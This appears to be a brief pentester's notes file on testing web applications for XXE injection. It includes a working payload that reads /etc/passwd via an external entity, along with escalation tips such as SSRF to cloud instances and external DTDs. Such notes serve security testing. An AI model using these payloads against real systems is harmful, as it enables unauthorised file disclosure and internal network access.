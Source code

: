 # Where
  - in XML post data
  - in JSON post data

# Tools
  -content type converter in Burp : convert JSON to XML and opposite
  
# How to test
  - Try to convert json data to xml and see if application still respond
  - Try to had an entity
```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```
  - Read files
```<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
````
  - XXE to SSRF : Put a link to other assets or aws instance for example instead of a file
  - You can also base64 encode the file 
  - You can put an XML in image Exif data 
  - Use External DTD to escalate XXE
